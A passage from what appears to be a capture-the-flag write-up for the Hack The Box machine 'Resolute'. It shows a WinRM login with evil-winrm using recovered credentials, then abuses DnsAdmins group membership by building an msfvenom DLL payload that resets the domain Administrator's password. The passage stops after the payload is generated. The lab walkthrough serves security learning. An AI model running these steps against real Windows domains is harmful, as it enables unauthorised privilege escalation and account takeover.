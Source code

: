 ```bash
<SNIP>
```
{% endcode %}

Let's validate `ryan`'s credentials and log into the box.

{% code overflow="wrap" %}
```bash
$ nxc winrm 10.10.10.169 -u ryan -p ryan_pass
SMB         10.10.10.169    445    RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\ryan:******** (Pwn3d!)

$ evil-winrm -i 10.10.10.169 -u 'ryan' -p $(cat ryan_pass)

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
```
{% endcode %}

## Elevation of Privileges

A note is found on `ryan`'s desktop.

{% code overflow="wrap" %}
```bash
*Evil-WinRM* PS C:\Users\ryan> type desktop\note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
{% endcode %}

As we already know,  this user is a member of the `DnsAdmins` group. This can be exploited by specifying a plugin DLL that can be loaded upon (re)starting the DNS service. For example, we can leverage this fact by creating a payload that changes that `Administrator`'s password.

{% code overflow="wrap" %}
```bash
# generating the payload
$ sudo msfvenom -p windows/x64/exec cmd='net user administrator Password123! /domain' -f dll > da.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 311 bytes
```
{% endcode %}
